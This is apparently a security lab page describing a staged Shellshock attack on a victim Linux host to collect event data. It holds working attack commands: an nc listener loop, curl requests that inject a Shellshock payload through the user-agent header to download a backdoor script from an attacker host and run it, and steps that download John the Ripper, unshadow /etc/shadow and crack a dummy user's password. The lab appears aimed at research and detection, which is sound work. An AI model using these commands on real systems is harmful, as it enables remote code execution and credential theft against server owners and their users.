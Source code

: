 # Shellshock + John the ripper

** Description ** Attacker exploits remote shellshock vulnerability by sending crafted input to CGI service implemented using bash.

## Openning reverse shell with Shellshock vulnerability

* Leveraging ShellShock vulnerability 

## Rassword cracker 

* http://www.syssec.org:9000/xlIOo/john.tar.xz



## Attack steps

1. Log into `wlab2-lin1`, target host is `wlab2-lin0`.

    * We only collect events from `wlab2-lin0` (victim host)

2. Run nc backdoor from wlab2-lin1 

```
while true
do
    nc -l -p 9999
done
```

3. Exploit Shellshock vulnerability

  * Download backdoor script
```
curl -H "user-agent: () { :; }; echo; echo; curl http://172.16.67.131/tools/bdoor.sh -o /tmp/t" http://172.16.67.130:8080/cgi-bin/env.cgi
```
  * Run backdoor script
```
curl -H "user-agent: () { :; }; echo; echo; bash /tmp/bdoor.sh" http://172.16.67.130:8080/cgi-bin/env.cgi
```

4. From backdoor session, run the John-the-ripper package.

* [John the ripper examples](https://www.openwall.com/john/doc/EXAMPLES.shtml)

```
$ cd /tmp/
$ wget http://www.syssec.org:9000/xlIOo/john.tar.xz
$ tar xvf john.tar.xz
$ cd john
$ sudo unshadow /etc/passwd /etc/shadow > myshadow
$ ./john myshadow
...
Proceeding with wordlist:./password.lst, rules:Wordlist
Abc12345         (victim0)
```

## Regular operation

```bash
curl http://172.16.67.130:8080/cgi-bin/env.cgi
```

## Resources

* Need a Linux host (wlab-lin0)

* Apache webserver (or thttpd) + CGI script

* Prepare dummy user
```
$ sudo adduser victim0
...    
# Type-in 'Abc12345' as a password
Enter new UNIX password:   
Retype new UNIX password:
```

## Track CURL in
```
/usr/bin/curl /usr/share/man/man1/curl.1.gz
```

###### tags: `john`,`ripper`,`linux`,`attack`,`shellshock`